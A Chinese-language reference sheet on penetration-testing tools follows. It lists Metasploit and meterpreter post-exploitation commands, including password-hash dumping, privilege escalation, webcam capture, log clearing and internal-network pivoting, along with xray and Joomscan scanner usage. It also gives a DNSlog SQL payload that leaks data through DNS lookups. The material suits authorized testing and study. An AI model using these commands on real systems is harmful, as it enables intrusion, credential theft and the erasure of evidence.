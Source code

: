 综合框架
----------------------------------------

metasploit
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- Terminal下msf常用命令简介
	+ 打开msf终端：``msfconsole``
	+ msf数据库初始化：``msfdb init``
	+ msf更新：``apt install metasploit framework``
	+ 将汇编指令转换成为对应的16进制机器码：``msf-nasm_shell``
- msf终端下常用命令简介
	+ 查看数msf据库连接状态,连接数据库能够优化搜索等过程：``db_status`` 
	+ 重建缓存，将模块等索引重新存入数据库：``db_rebuild_cache``
	+ 调用nmap扫描，并将扫描结果存入数据库：``db_nmap``
	+ 显示命令的帮助信息：``help [db_connect]``
	+ 搜索含有关键字的模块：``search [module]``
	+ 选择模块：``use [module]``
	+ 显示模块支持的payload：``show payload``
	+ 显示模块参数：``show options``
	+ info详情：``info``
	+ 设置取消参数：``set/unset [opt]``
	+ 设置取消全局参数：``setg/unsetg [opt]``
	+ 返回上级状态：``back``
	+ 运行攻击模块：``exploit/run``
	+ 查看当前连接会话：``sessions``
- meterpreter后渗透利用
	+ 打印当前工作目录：``pwd``
	+ 查看系统信息：``sysinfo``
	+ 查看当前目标机上运行的进程列表和pid：``ps``
	+ 调用相机拍摄照片：``webcam_snap``
	+ 运行vnc远程查看屏幕：``run vnc``
	+ 开启远程登录3389（windows）：``run post/windows/manage/enable_rdp``
	+ 截取目标主机当前屏幕​：``screenshot``
	+ 获取当前权限的用户id：``getuid``
	+ 获取system权限：``getsystem``
	+ 获取用户名与hash口令：``hashdump``
	+ 获取目标主机shell(windows环境下中文乱码的解决办法:chcp 65001）：``shell``
	+ 退出shell模式，返回到meterpreter：``Ctrl+Z``
	+ 上传一个文件：``upload``
	+ 下载一个文件：``download``
	+ 执行目标系统中的文件(-f 指定文件，-i执行可交互模式，-H隐藏窗口)：``excute``
	+ 清除日志：``clearev``
	+ 将Meterpreter放入后台(使用session -i重新连接到会话)：``background``
- meterpreter内网渗透
	+ 获取目标主机上的子网状态：``run get_local_subnets``
	+ arp扫描内网机器：``run post/windows/gather/arp_scanner RHOSTS=192.168.100.0/24``
	+ 使用autoroute模块添加到达内网的路由经session 1转发：``run autoroute -s 169.254.0.0/16 1``
	+ 查看当前的路由表：``run autoroute -p``
	+ 扫描内网存活主机：``db_nmap``
	+ 将目标主机192.168.16.59的3389转发到本地主机的7070端口：``portfwd add -l 7070 -r 192.168.16.59 -p 3389``
	+ 端口转发成功后就可以从本地端口连接rdp：``rdesktop 127.0.0.1:7070``

xray
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- 全局配置
	+ --config 用于指定配置文件的位置，默认加载同目录的 config.yaml
	+ --log_level 用于指定全局的日志配置
	+ ``xray_windows_amd64.exe --log_level debug --config 1.yaml webscan --url xxx``
- reverse命令
	+ 启用单独的盲打平台服务，盲打平台用于处理没有回显或延迟触发的问题
- genca
	+ 用于快速生成一个根证书，主要用于被动代理扫描 HTTPS 流量时用到
- subdomain
	+ 子域名扫描
	+ ``xray_windows_amd64.exe  subdomain --target example.com --text-output example.txt``
	+ ``xray_windows_amd64.exe subdomain --target example.com --console-ui --text-output example.txt``
- webscan
	+ 扫描web漏洞，核心功能
	+ --plugins 配置本次扫描启用哪些插件, 不再使用配置文件中的配置
		- ``--plugins xss --plugins xss,sqldet,phantasm``
	+ --poc 配置本次扫描启用哪些 POC,因为所有 POC 隶属于 phantasm 插件, 所以该参数其实是 phantasm 插件独有的配置。
		- ``--plugins phantasm --poc poc-yaml-thinkphp5-controller-rce``
		- ``--plugins phantasm --poc "*thinkphp*"``
		- ``--plugins phantasm --poc "/home/test/pocs/*"``
		- ``--plugins phantasm --poc "/home/test/pocs/*thinkphp*" ...``
	+ 配置输入来源
		- --listen 
			+ 启动一个被动代理服务器作为输入，如 --listen 127.0.0.1:4444，然后配置浏览器或其他访问工具的 http 代理为 http://127.0.0.1:4444 就可以自动检测代理中的 HTTP 请求并进行漏洞扫描
		- --basic-crawler 
			+ 启用一个基础爬虫作为输入， 如 --basic-crawler http://example.com，就可抓取 http://example.com 的内容并以此内容进行漏洞扫描
		- --url 
			+ 用于快速测试单个 url，这个参数不带爬虫，只对当前链接进行测试。默认为 GET 请求，配合下面的 --data 参数可以指定 body，同时变为 POST 请求。
		- --raw-request 
			+ 用于加载一个原始的 HTTP 请求并用于扫描，原始请求类似上面代码框中的原始请求，如果你用过 sqlmap -r，那么这个参数应该也很容易上手。
	+ 输出方式
		- --html-output 将结果输出为 html 报告, 报告样例
		- --webhook-output 将结果发送到一个地址
		- --json-output 将结果输出到一个 json 文件中
	+ 示例
		- ``xray_darwin_amd64 webscan --plugins xss --listen 127.0.0.1:1111 --html-output 1.html``
		- ``xray_darwin_amd64 --log_level debug webscan --plugins xss,cmd_injection --basic-crawler http://example.com --json-output 1.json``
		- ``xray_darwin_amd64 webscan --url http://example.com --data "x=y" --html-output 2.html --json-output 1.json``
		- ``xray_darwin_amd64 webscan --url http://example.com/ --webhook-output http://host:port/path``


Joomscan
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- 介绍
	+ Joomla security scanner可以检测Joomla整站程序搭建的网站是否存在文件包含、sql注入、命令执行等漏洞。
- 使用方法
	+ 默认检测：``joomscan -u www.example.com``
	+ 组件检测：``joomscan -u www.example.com –ec``
	+ 设置cookie：``joomscan -u www.example.com --cookie "test=demo;"``
	+ 随机UA：``joomscan -u www.example.com -r``
	+ 设置代理：``joomscan -u www.example.com --proxy http://127.0.0.1:8080``
	
dnslog
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- 利用场景
	+ Sql-Blind
	+ RCE
	+ SSRF
	+ RFI（Remote File Inclusion）
- 原理
	将dnslog平台中的特有字段payload带入目标发起dns请求，通过dns解析将请求后的关键信息组合成新的三级域名带出，在ns服务器的dns日志中显示出来。
- 限制
	load_file函数在Linux下是无法用来做dnslog攻击的，因为Linux没有UNC路径(UNC路径就是类似\\softer这样的形式的网络路径)。
- 示例
	+ ``select load_file('\\\\',version(),'.dnslog地址')``

其它
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- AWVS
- Immunity Canvas
- openvas
- nessus
- `PenTesters Framework(ptf) <https://github.com/trustedsec/ptf>`_
- katoolin
- `w3af <http://w3af.org/>`_
- `AutoSploit <https://github.com/NullArray/AutoSploit/>`_
- `skipfish <https://my.oschina.net/u/995648/blog/114321>`_
- `Arachni <http://www.arachni-scanner.com/>`_
- `Spiderfoot <https://github.com/smicallef/spiderfoot>`_
- `AZScanner <https://github.com/az0ne/AZScanner>`_
- `Fuxi <https://github.com/jeffzh3ng/Fuxi-Scanner>`_
- `vooki <https://www.vegabird.com/vooki/>`_
- `BadMod <https://github.com/MrSqar-Ye/BadMod>`_
- `x-scan <https://x-scan.apponic.com/>`_
